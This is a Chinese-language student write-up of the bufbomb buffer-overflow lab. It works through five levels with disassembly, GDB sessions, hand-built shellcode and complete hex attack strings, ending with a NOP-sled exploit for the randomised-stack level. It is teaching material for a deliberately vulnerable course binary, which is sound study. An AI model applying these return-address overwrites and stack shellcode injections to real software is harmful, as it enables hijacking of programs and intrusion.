

## 1. Level 0: smoke[¶](https://comp3052.p.cs-lab.top/lab1/part2/#1-level-0-smoke)

在bufbomb实验包中，只有已经编译好的可执行文件，源代码没有直接给出，你需要通过反汇编或者其他调试工具来逆向分析这个可执行文件。

然而，为了帮助大家更好地理解bufbomb的工作原理，下面提供一些关键部分的源代码。 在bufbomb程序中，getbuf函数被一个test函数调用，代码如下：

```
   void test()
   {
       int val;
       /* Put canary on stack to detect possible corruption */
       volatile int local = uniqueval();

       val = getbuf();

       /* Check for corrupted stack */
       if (local != uniqueval()) {
          printf("Sabotaged!: the stack has been corrupted\n");
      }
      else if (val == cookie) {
          printf("Boom!: getbuf returned 0x%x\n", val);
          validate(3);
      } else {
          printf("Dud: getbuf returned 0x%x\n", val);
      }
  }
/* 攻击目标函数 */
int getbuf()
{
    char buf[NORMAL_BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

在getbuf函数执行完其返回语句后，程序正常情况下应该从test函数中第8行的if语句继续执行，现在应设法构造攻击字符串，使得输入其至bufbomb目标程序后，在getbuf函数执行它的return语句后，不是返回到test函数继续执行，而是转而执行bufbomb程序中如下一个smoke函数的代码：

```
void smoke()
{
    printf("Smoke!: You called smoke()\n");
    validate(0);
    exit(0);
}
```

注意：攻击字符串可能会同时破坏了与本阶段无关的栈结构部分，但在本级别中这没有问题，因为smoke过程会使程序直接结束。

建议

- 在本级别中，用来推断攻击字符串的所有信息都可从检查bufbomb的反汇编代码中获得（使用objdump –d命令）。
- 注意字符串和代码中的字节顺序。
- 可使用GDB工具单步跟踪getbuf过程的最后几条指令，以了解程序的运行情况。

##### 为帮助同学们快速入门，下面提供一种可能的解题思路:-)

- 使用objdump -d命令获取bufbomb的反汇编源代码，然后重定向到文件中，参考命令如下：`objdump -d bufbomb > bufbomb.s`
- 在bufbomb的反汇编源代码中找到smoke函数，记下它的地址。
- 同样，在bufbomb的反汇编源代码中找到getbuf函数，观察它的栈帧结构。（每位同学实验包里的栈帧地址或大小可能会有所不同）。
- 设计攻击字符串，用来覆盖数组buf，进而溢出并覆盖ebp和ebp上面的返回地址。攻击字符串的大小应该是buf数组大小 + 4（test()原EBP值）+ 4（test()返回地址）字节。其中，前（buf大小 + 4（test()原EBP值））字节可为任意值，最后4字节应该为smoke函数的地址。注意返回地址要用小端格式表示。
- 将上述攻击字符串写在攻击字符串文件中，命名为smoke.txt。smoke.txt文件格式可参考[工具程序hex2raw说明](https://comp3052.p.cs-lab.top/lab1/part1/#52-hex2raw)。

执行getbuf函数时的栈帧:


攻击成功显示如下：

```
linux>cat smoke.txt |./hex2raw |./bufbomb -u 123456789
Userid: 123456789
Cookie: 0x25e1304b
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
```

### 过程

在bufbomb.s里找到getbuf：

```
08049c14 <getbuf>:
 8049c14:	55                   	push   %ebp
 8049c15:	89 e5                	mov    %esp,%ebp
 8049c17:	83 ec 38             	sub    $0x38,%esp
 8049c1a:	83 ec 0c             	sub    $0xc,%esp
 8049c1d:	8d 45 cf             	lea    -0x31(%ebp),%eax
 8049c20:	50                   	push   %eax
 8049c21:	e8 5e fa ff ff       	call   8049684 <Gets>
 8049c26:	83 c4 10             	add    $0x10,%esp
 8049c29:	b8 01 00 00 00       	mov    $0x1,%eax
 8049c2e:	c9                   	leave  
 8049c2f:	c3                   	ret  
```

发现获取字符串的空间为0x31=49字节，找到smoke地址为：0x8049417

```
08049417 <smoke>:
 8049417:	55                   	push   %ebp
 8049418:	89 e5                	mov    %esp,%ebp
 804941a:	83 ec 08             	sub    $0x8,%esp
 804941d:	83 ec 0c             	sub    $0xc,%esp
 8049420:	68 08 b0 04 08       	push   $0x804b008
 8049425:	e8 16 fd ff ff       	call   8049140 <puts@plt>
 804942a:	83 c4 10             	add    $0x10,%esp
 804942d:	83 ec 0c             	sub    $0xc,%esp
 8049430:	6a 00                	push   $0x0
 8049432:	e8 ab 09 00 00       	call   8049de2 <validate>
 8049437:	83 c4 10             	add    $0x10,%esp
 804943a:	83 ec 0c             	sub    $0xc,%esp
 804943d:	6a 00                	push   $0x0
 804943f:	e8 0c fd ff ff       	call   8049150 <exit@plt>
```

结果就是：

```
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00 00 
00 00 00 00
17 94 04 08
```

前49个字节的0用来覆盖buf，然后4个字节的00覆盖%ebp，最后4个字节为返回地址

## 2. Level 1: fizz[¶](https://comp3052.p.cs-lab.top/lab1/part2/#2-level-1-fizz)

在bufbomb程序中有一个fizz函数，其代码如下：

```
/* 跳转目标函数 */
void fizz(int val)
{
   if (val == cookie) {
       printf("Fizz!: You called fizz(0x%x)\n", val);
       validate(1);
   } else
       printf("Misfire: You called fizz(0x%x)\n", val);
   exit(0);
}
```

与Level 0相似，本实验的目标是操纵bufbomb程序，使其在getbuf函数执行return语句后，不再返回至test函数，而是跳转到并执行fizz函数的代码。然而，与Level 0中的smoke函数不同，fizz函数在调用时需要一个特定的输入参数。这个参数必须准确地等于通过makecookie函数生成的cookie值。因此，本实验的挑战在于如何精心构造攻击字符串，以确保在缓冲区溢出发生时，不仅能使控制流转向fizz函数，而且还能正确传递所需的cookie参数值。

##### 一种可能的解题思路:-)

程序无需真的调用fizz。只需跳至fizz函数的特定指令（例如访问/传送被比较数值的指令）开始执行。因此需要仔细考虑将cookie放置在栈中什么位置。

- 攻击（修改）返回地址区域
- 修改被引用的栈存储数值

攻击成功显示如下：

```
linux>cat fizz.txt |./hex2raw |./bufbomb -u 123456789
Userid: 123456789
Cookie: 0x25e1304b
Type string:Fizz!: You called fizz(0x25e1304b)
VALID
NICE JOB!
```

### 过程

```
08049444 <fizz>:
 8049444:	55                   	push   %ebp
 8049445:	89 e5                	mov    %esp,%ebp
 8049447:	83 ec 08             	sub    $0x8,%esp
 804944a:	8b 55 08             	mov    0x8(%ebp),%edx
 804944d:	a1 90 d1 04 08       	mov    0x804d190,%eax
 8049452:	39 c2                	cmp    %eax,%edx
 8049454:	75 22                	jne    8049478 <fizz+0x34>
```

fizz函数从栈中申请了0x8个字节，这个就是参数val的地址，只要在这8个字节写上自己的cookie就行了，cookie为0x6e6b5dca，fizz函数地址为0x8049444,所以

```
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00
00 00 00 00 00 00 00
00 00 00 00
44 94 04 08
00 00 00 00 ca 5d 6b 6e
```

## 3. Level 2: bang[¶](https://comp3052.p.cs-lab.top/lab1/part2/#3-level-2-bang)

为了实现更高级的缓冲区攻击，攻击者会在精心构造的攻击字符串中嵌入实际的机器指令，并通过改写栈上的原返回地址指针，使其指向这些攻击机器指令的起始位置。当被攻击的函数（如getbuf）执行返回指令时，程序将不再返回至上层调用过程，而是转而执行攻击者植入的代码。

这种攻击方式赋予了攻击者极大的控制权，能够令被攻击程序执行任意操作。这些随攻击字符串一同放置在栈上的代码，被称为攻击代码或利用代码（exploit code）。然而，实施此类攻击颇具挑战性，因为攻击者需要确保攻击机器代码能够准确无误地放置在栈中的特定位置，并精确控制返回地址，使其精准指向攻击代码的起始点。

在bufbomb程序中，有一个bang函数，代码如下：

```
int global_value = 0;
void bang(int val)
{
    if (global_value == cookie) {
        printf("Bang!: You set global_value to 0x%x\n", global_value);
        validate(2);
    } else
        printf("Misfire: global_value = 0x%x\n", global_value);
    exit(0);
}
```

与Level 0和Level 1的实验目标相似，本实验级别的核心挑战在于诱导bufbomb程序跳过返回至test函数的步骤，转而执行bang函数的代码。为了实现这一目标，攻击代码必须精准执行以下关键步骤：首先，必须确保全局变量global_value被设置成与特定userid（即学号）相匹配的cookie值；紧接着，需将bang函数的地址精确无误地压入栈中；最后，通过执行一条ret指令，使程序从栈中弹出该地址并跳转到bang函数的起始位置，从而继续执行其内部代码。

这样的攻击过程要求攻击者对bufbomb的内存布局、机器指令以及栈的工作原理有深入的理解，并能够精确控制攻击代码的构造和放置位置。然而，需要强调的是，这种攻击行为在真实环境中是违法的，并可能导致严重的安全后果。因此，这些实验仅适用于教育和研究目的，并且必须在受控、隔离的环境中进行。

##### 建议

- 可以使用GDB获得构造攻击字符串所需的信息。例如，在getbuf函数里设置一个断点并执行到该断点处，进而确定global_value和buf缓冲区等变量的地址。
- 手工进行指令的字节编码枯燥且容易出错。相反，可以使用一些工具来完成该工作，具体可参考本章最后的实验提示。
- 不要试图利用jmp或者call指令跳到bang函数的代码中，这些指令使用相对PC的寻址，很难正确达到前述目标。相反，应向栈中压入地址（push指令）并使用ret指令实现跳转。

##### 一种可能的解题思路:-)

在攻击字符串中包含实际的机器指令，并构造攻击字符串将原返回地址指针改写为位于栈上的攻击机器指令的开始地址。

- 设法将攻击（机器指令）代码放置到栈上，且将返回地址指针指向该代码起始位置。这样，执行ret指令时，程序将开始执行攻击代码而不是返回上层函数——可使被攻击程序做任何事。
- 攻击（机器指令）代码需要完成的功能：首先将全局变量global_value设置为对应userid的cookie值，再将bang函数的地址压入栈中，然后执行一条ret指令从而跳至bang函数的代码执行。


攻击成功显示如下：

```
linux>cat bang.txt |./hex2raw |./bufbomb -u 123456789
Userid: 123456789
Cookie: 0x25e1304b
Type string:Bang!: You set global_value to 0x25e1304b
VALID
NICE JOB!
```

### 过程

先观察bang函数：bang地址0x8049495

```
08049495 <bang>:
 8049495:	55                   	push   %ebp
 8049496:	89 e5                	mov    %esp,%ebp
 8049498:	83 ec 08             	sub    $0x8,%esp
 804949b:	a1 98 d1 04 08       	mov    0x804d198,%eax
 80494a0:	89 c2                	mov    %eax,%edx
 80494a2:	a1 90 d1 04 08       	mov    0x804d190,%eax
 80494a7:	39 c2                	cmp    %eax,%edx
 80494a9:	75 25                	jne    80494d0 <bang+0x3b>
```

使用gdb工具看一下0x804d198和0x804d190是什么

```
(gdb) b test
(gdb) r -u 学号
(gdb) x/16x 0x804d198
0x804d198 <global_value>:       0x00000000      0x000000000x00000000       0x00000000
(gdb) x/16x 0x804d190
0x804d190 <cookie>:     0x6e6b5dca      0x00000000      0x00000000 0x00000000
```

所以分别是global_value和cookie

制造汇编代码：

```
mov 0x804d190,%eax
mov %eax,0x804d198
push $0x08049495
ret
```

生成机器语言：

```
test.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	a1 90 d1 04 08       	mov    0x804d190,%eax
   5:	a3 98 d1 04 08       	mov    %eax,0x804d198
   a:	68 95 94 04 08       	push   $0x8049495
   f:	c3                   	ret    
```

获取栈顶位置：

```
(gdb) b getbuf
(gdb) r -u 学号
(gdb) p/s $ebp-0x31
$1 = (void *) 0x5568773f <_reserved+1029983>
```

得到结果：

```
8b 04 25 90 d1 04 08    /* mov    0x804d190,%eax */
89 04 25 98 d1 04 08    /* mov    %eax,0x804d198 */
68 95 94 04 08          /* push   $0x8049495 */
c3                      /* ret */   
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
3f 77 68 55
```

这里这样写是因为，用攻击代码和00填充了buf，然后返回地址写的是栈顶地址，就会返回到栈顶执行攻击代码

## 4. Level 3: boom[¶](https://comp3052.p.cs-lab.top/lab1/part2/#4-level-3-boom)

前面阶段的攻击主要集中在使程序跳转到不同于正常返回地址的其他函数，以中断程序执行。因此，通过攻击字符串破坏并修改栈中原有值的方式被认为是可行的。然而，更高层次的缓冲区溢出攻击技术不仅涉及执行攻击代码以修改程序的寄存器或内存值，而且要求攻击后程序能够无痕迹地返回到原调用函数（如test函数）继续执行——即确保调用过程不被察觉。这种攻击方式难度显著提升，因为攻击者必须：

1）巧妙地将攻击机器代码嵌入栈中；
2）精准地设置返回指针，使其指向攻击代码的起始位置；
3）在攻击完成后，完全恢复栈帧状态，消除所有破坏痕迹。

本实验级别的挑战在于 **构造一个攻击字符串，该字符串需确保getbuf函数能够正确地将cookie值返回给test函数，而非简单地返回值1** 。此外，攻击代码还需负责修复任何被破坏的栈帧状态，确保将正确的返回地址重新压入栈中，并通过执行ret指令实现无缝返回到test函数，以维持程序的正常执行流程。

##### 建议

同上一级别，例如可使用GDB确定保存的返回地址等参数。

一种可能的解题思路:-)

- 将cookie值返回给test函数：可通过%EAX寄存器传递。EAX寄存器在x86架构中常用于存储函数返回值。
- 还原任何被破坏的栈帧状态：你需要考虑攻击字符串破坏了栈帧的哪些状态数据。
- 返回到原来的调用函数test执行：可使用push和ret这两条指令完成该动作。

攻击成功显示如下：

```
linux>cat boom.txt |./hex2raw |./bufbomb -u 123456789
Userid: 123456789
Cookie: 0x25e1304b
Type string:Boom!: getbuf returned 0x25e1304b
VALID
NICE JOB!
```

### 过程

查看test代码：

```
080494f0 <test>:
 80494f0:	55                   	push   %ebp
 80494f1:	89 e5                	mov    %esp,%ebp
 80494f3:	83 ec 18             	sub    $0x18,%esp
 80494f6:	e8 a5 04 00 00       	call   80499a0 <uniqueval>
 80494fb:	89 45 f0             	mov    %eax,-0x10(%ebp)
 80494fe:	e8 11 07 00 00       	call   8049c14 <getbuf>
 8049503:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8049506:	e8 95 04 00 00       	call   80499a0 <uniqueval>
 804950b:	8b 55 f0             	mov    -0x10(%ebp),%edx
 804950e:	39 d0                	cmp    %edx,%eax
```

也就是用%eax存储了cookie值

在`getbuf`函数中修改了栈指针的值，题目要求保持栈指针的值不变，所以要将栈指针的值还原，获取栈指针原来的值：

```
(gdb) b getbuf
Breakpoint 1 at 0x8049c1a
(gdb) r -u 学号
(gdb) x $ebp
0x55687770 <_reserved+1030000>: 0x55687790
```

插入汇编代码：

```
mov     0x804d190,%eax      # cookie的地址
push    $0x8049503          # getbuf返回到test的地址
ret
```

得到答案：

```
8b 04 25 90 d1 04 08    /* mov    0x804d190,%eax */
68 03 95 04 08          /* push   $0x8049503 */
c3                      /* ret */
00 00 00 00 00 00 00
00 00 00 00 00 00 00
00 00 00 00 00 00 00
00 00 00 00 00 00 00
00 00 00 00 00 00 00
00
90 77 68 55 3f 77 68 55
```

即攻击字符串前 49 字 节由攻击代码构成，再加上 4 字节原 ebp，和 4 字节栈顶地址。

## 5. Level 4: kaboom[¶](https://comp3052.p.cs-lab.top/lab1/part2/#5-level-4-kaboom)

首先注意：执行本级别实验时，务必在运行bufbomb程序（以及hex2raw程序）时添加“-n”命令行选项，以启用“Nitro”模式。

实验背景阐述：函数的栈帧内存地址在程序的不同运行实例中，特别是针对不同用户，往往会有所变化。这种变化的一个主要因素是环境变量的字符串值在程序启动时会被存储在栈中靠近栈基地址的位置，而不同用户的环境变量设置可能导致不同的栈空间占用。此外，当程序在GDB中运行时，由于GDB需要使用栈空间来保存其状态，栈地址也会有所不同。

在之前的实验中，我们采取了一些措施来确保栈地址的稳定性，这使得getbuf函数的栈帧地址在不同运行实例中保持一致。这种稳定性使得我们能够基于buf的已知确切起始地址来构造攻击字符串。然而，如果将这种攻击方法应用于一般程序，可能会发现攻击效果并不稳定，有时会导致段错误（segmentation fault）。

与之前的实验级别不同， **本实验级别（“Nitro”）中栈帧的地址不再固定** 。在调用testn函数之前，程序会在栈上分配一个随机大小的内存块，因此testn函数及其调用的getbufn函数的栈帧起始地址在每次运行程序时都会是一个随机且不固定的值。

值得一提的是，在“Nitro”模式下，程序调用的getbufn函数与之前的getbuf函数有所不同。具体来说，getbufn函数使用的缓冲区长度超过了512字节，这为我们提供了更大的存储空间来构造更为可靠和有效的攻击代码。

```
/* Buffer size for getbufn */
#define KABOOM_BUFFER_SIZE /*一个大于等于512的整数常量*/
```

本实验级别的核心任务与前一级别相同，即构建一个攻击字符串，确保getbufn函数能返回cookie值给testn函数，而非仅返回默认值1。具体来说，该攻击字符串需执行以下操作：将函数返回值精确设定为cookie值，恢复或清理所有因攻击而破坏的栈状态，确保正确的返回地址被压入栈中，并通过执行ret指令，确保程序能准确无误地返回至testn函数继续执行。

然而，在启用了“Nitro”模式的bufbomb程序中，情况变得更为复杂。该程序会连续五次使用相同的攻击字符串调用getbufn函数，且每次调用时栈的偏移位置均不相同。这意味着所构造的攻击字符串必须具备高度的健壮性和通用性，以确保无论栈的偏移位置如何变化，它都能稳定地使程序返回正确的cookie值。这无疑加大了攻击字符串的设计和构造难度。

##### 建议

- 本实验的技巧在于合理使用nop指令，该指令的机器代码只有一个字节（0x90）
- 可以如下使用hex2raw程序生成并传送攻击字符串的多个拷贝给bufbomb程序（假设kaboom.txt文件中保存了攻击字符串的一个拷贝）：

```
linux>cat kaboom.txt | ./hex2raw -n | ./bufbomb -n -u 123456789
```

##### 一种可能的解题思路:-)

- 由于buf首地址不固定，可在buf前部填充nop指令（机器代码0x90，即nop雪橇），并假定攻击代码指令起始地址 = GDB获得大致buf首地址 + 0.5 * buf大小，即执行nop雪橇的中间位置，最大程度容纳stack上下偏移。（详见CSAPP课本第三章 `3.10.4 对抗缓冲区溢出攻击` P199 ）
- 如下图所示，所猜测攻击指令地址（用于覆盖返回地址）只要落于其中，控制将最终传递到攻击指令。 
- testn函数栈帧的原EBP值不固定，可从调用getbufn后的%ESP（未被栈中的攻击字符串内容所覆盖）间接获得（从testn的汇编代码推导出），进而用movl指令直接设置%EBP。
- 

攻击成功显示如下：

```
linux>$ cat kaboom.txt | ./hex2raw -n | ./bufbomb -n -u 123456789
Userid: 123456789
Cookie: 0x25e1304b
Type string:KABOOM!: getbufn returned 0x25e1304b
Keep going
Type string:KABOOM!: getbufn returned 0x25e1304b
Keep going
Type string:KABOOM!: getbufn returned 0x25e1304b
Keep going
Type string:KABOOM!: getbufn returned 0x25e1304b
Keep going
Type string:KABOOM!: getbufn returned 0x25e1304b
VALID
NICE JOB!
```

### 过程

- 每次`%ebp`的值会改变（无法使用上一题的做法）。所以得要知道如何得到`%ebp`的值，观察`testn`汇编代码：

```
08049568 <testn>:
 8049568:	55                   	push   %ebp
 8049569:	89 e5                	mov    %esp,%ebp
 804956b:	83 ec 18             	sub    $0x18,%esp
 804956e:	e8 2d 04 00 00       	call   80499a0 <uniqueval>
 8049573:	89 45 f0             	mov    %eax,-0x10(%ebp)
 8049576:	e8 b5 06 00 00       	call   8049c30 <getbufn>
 804957b:	89 45 f4             	mov    %eax,-0xc(%ebp)
 804957e:	e8 1d 04 00 00       	call   80499a0 <uniqueval>
 8049583:	8b 55 f0             	mov    -0x10(%ebp),%edx
 8049586:	39 d0                	cmp    %edx,%eax
 8049588:	74 12                	je     804959c <testn+0x34>
```

得出：① $ ebp = esp + 0x18$ ② $getbufn$ 返回地址为： $0x804957b$

那么就可以写出插入的汇编代码片段：

```
movl    $0x6e6b5dca,%eax
lea     0x18(%esp),%ebp
push    $0x804957b
ret
```

得出机械语言(**要使用32位的环境！！**)

```
08049c30 <getbufn>:
 8049c30:	55                   	push   %ebp
 8049c31:	89 e5                	mov    %esp,%ebp
 8049c33:	81 ec 68 02 00 00    	sub    $0x268,%esp
 8049c39:	83 ec 0c             	sub    $0xc,%esp
 8049c3c:	8d 85 9b fd ff ff    	lea    -0x265(%ebp),%eax
 8049c42:	50                   	push   %eax
 8049c43:	e8 3c fa ff ff       	call   8049684 <Gets>
 8049c48:	83 c4 10             	add    $0x10,%esp
 8049c4b:	b8 01 00 00 00       	mov    $0x1,%eax
 8049c50:	c9                   	leave  
 8049c51:	c3                   	ret  
```

就差跳转位置了，通过查看getbufn可以知道

```
08049c30 <getbufn>:
 8049c30:	55                   	push   %ebp
 8049c31:	89 e5                	mov    %esp,%ebp
 8049c33:	81 ec 68 02 00 00    	sub    $0x268,%esp
 8049c39:	83 ec 0c             	sub    $0xc,%esp
 8049c3c:	8d 85 9b fd ff ff    	lea    -0x265(%ebp),%eax
 8049c42:	50                   	push   %eax
 8049c43:	e8 3c fa ff ff       	call   8049684 <Gets>
 8049c48:	83 c4 10             	add    $0x10,%esp
 8049c4b:	b8 01 00 00 00       	mov    $0x1,%eax
 8049c50:	c9                   	leave  
 8049c51:	c3                   	ret  
```

这里需要找出最大的跳转地址：假设以最小的跳转地址作为每次固定的跳转地址，除非$ebp - 0x265 = Min$每次都成立，否则就会跳转到申请的缓冲区之外。但是如果选择最大值的话，无论什么情况，每次跳转都会跳转到缓冲区内。

利用`gdb`工具寻找最大值，用了别人的图，反正就是差不多的操作，也是参考人家写的，主要还是他写的我能看得懂


找到最大的值为：`0x556877e0`那么要跳转的值即为： $0x556877e0-0x265 = 0x5568757b$

因为每次`ebp`的值都不一样，所以将核心代码移动到字符串的最后其他部分nop(90)就解决了这些冲突。

最后得出答案：

```
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 
b8 ca 5d 6b 6e          /* movl    $0x6e6b5dca,%eax */
8d 6c 24 18          /* lea    0x18(%esp),%ebp */
68 7b 95 04 08          /* push   $0x804957b */
c3
00 00 00 00
7b 75 68 55
```

buf 大小 0x265=613 字节，攻击代码 15 个字节，因此填充 598 个 nop，加 4 字节任意字符，和 4 字节 ebp 最大地址，也就是返回的地址。
